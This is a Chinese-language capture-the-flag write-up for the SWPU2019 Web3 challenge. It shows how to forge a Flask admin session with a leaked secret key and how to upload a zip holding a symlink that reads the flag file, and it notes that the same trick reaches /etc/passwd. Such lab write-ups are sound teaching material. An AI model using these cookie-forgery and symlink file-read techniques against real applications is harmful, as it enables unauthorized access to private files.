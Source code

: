 # \[SWPU2019]Web3

## \[SWPU2019]Web3

## 考点

* Flask session伪造
* Linux命令
* `ln`命令新建"快捷方式"

## wp

标题flask-demo提示是个flask的框架

随便输入用户名和密码可以登录，然后回显用户名，这里可能有SSTI

![](<../../.gitbook/assets/image (8) (1).png>)

点击upload提示`Permission denied!`，要进行flask session伪造，先试试SSTI，用户名输入`{{7*7}}`原样返回

![](<../../.gitbook/assets/image (7) (1).png>)

只能想其他办法获取`secret_key`，发现在404页面的返回头存在`Swpuctf_csrf_token`，为`U0VDUkVUX0tFWTprZXlxcXF3d3dlZWUhQCMkJV4mKg==`

![](<../../.gitbook/assets/image (1) (1) (1).png>)

解码后为`SECRET_KEY:keyqqqwwweee!@#$%^&*`，然后重新加密session，内容是`{'id': b'1', 'is_login': True, 'password': '111', 'username': 'admin'}`

```
flask-unsign --secret "keyqqqwwweee!@#$%^&*" --sign --cookie "{'id': b'1', 'is_login': True,
'password': '111', 'username': 'admin'}"
```

得到`eyJpZCI6eyIgYiI6Ik1RPT0ifSwiaXNfbG9naW4iOnRydWUsInBhc3N3b3JkIjoiMTExIiwidXNlcm5hbWUiOiJhZG1pbiJ9.Ymz6jQ.Hk-k8PvafeNbp8uRfcuWnWVjJhA`

修改cookie可以访问`/upload`页面

在注释中找到代码

```python
@app.route('/upload',methods=['GET','POST'])
def upload():
    if session['id'] != b'1':
        return render_template_string(temp)
    if request.method=='POST':
        m = hashlib.md5()
        name = session['password']
        name = name+'qweqweqwe'
        name = name.encode(encoding='utf-8')
        m.update(name)
        md5_one= m.hexdigest()
        n = hashlib.md5()
        ip = request.remote_addr
        ip = ip.encode(encoding='utf-8')
        n.update(ip)
        md5_ip = n.hexdigest()
        f=request.files['file']
        basepath=os.path.dirname(os.path.realpath(__file__))
        path = basepath+'/upload/'+md5_ip+'/'+md5_one+'/'+session['username']+"/"
        path_base = basepath+'/upload/'+md5_ip+'/'
        filename = f.filename
        pathname = path+filename
        if "zip" != filename.split('.')[-1]:
            return 'zip only allowed'
        if not os.path.exists(path_base):
            try:
                os.makedirs(path_base)
            except Exception as e:
                return 'error'
        if not os.path.exists(path):
            try:
                os.makedirs(path)
            except Exception as e:
                return 'error'
        if not os.path.exists(pathname):
            try:
                f.save(pathname)
            except Exception as e:
                return 'error'
        try:
            cmd = "unzip -n -d "+path+" "+ pathname
            if cmd.find('|') != -1 or cmd.find(';') != -1:
				waf()
                return 'error'
            os.system(cmd)
        except Exception as e:
            return 'error'
        unzip_file = zipfile.ZipFile(pathname,'r')
        unzip_filename = unzip_file.namelist()[0]
        if session['is_login'] != True:
            return 'not login'
        try:
            if unzip_filename.find('/') != -1:
                shutil.rmtree(path_base)
                os.mkdir(path_base)
                return 'error'
            image = open(path+unzip_filename, "rb").read()
            resp = make_response(image)
            resp.headers['Content-Type'] = 'image/png'
            return resp
        except Exception as e:
            shutil.rmtree(path_base)
            os.mkdir(path_base)
            return 'error'
    return render_template('upload.html')


@app.route('/showflag')
def showflag():
    if True == False:
        image = open(os.path.join('./flag/flag.jpg'), "rb").read()
        resp = make_response(image)
        resp.headers['Content-Type'] = 'image/png'
        return resp
    else:
        return "can't give you"
```

session中的username为admin，password为111。

那这段代码就在说，先根据session中的username和password，以及IP地址生成上传目录，然后上传一个zip压缩包，对其进行解压，解压的文件名不能包含`/`，获得的第一个文件以图片形式展示。在`showflag()`中说明了flag的位置，但是不知道绝对路径。

如果使用`ln -s /proc/self/cwd/flag/flag.jpg test`新建一个指向`flag`的链接，再用`zip`压缩`test`文件，是不是就可以访问`flag`了，但是如果直接压缩不会保存连接符，要用`zip -y`参数

所以本题就是

1. `ln -s /proc/self/cwd/flag/flag.jpg test`
2. `zip -ry test.zip test`

再上传即可

![](<../../.gitbook/assets/image (6).png>)

## 小结

1. Linux下`/proc/self/cwd/`会指向进程的当前目录
2. `ln -s /etc/passwd test` 相当于新建一个链接到`/etc/passwd`的文件`test`，对`test`使用`cat`等命令会自动指向`/etc/passwd`
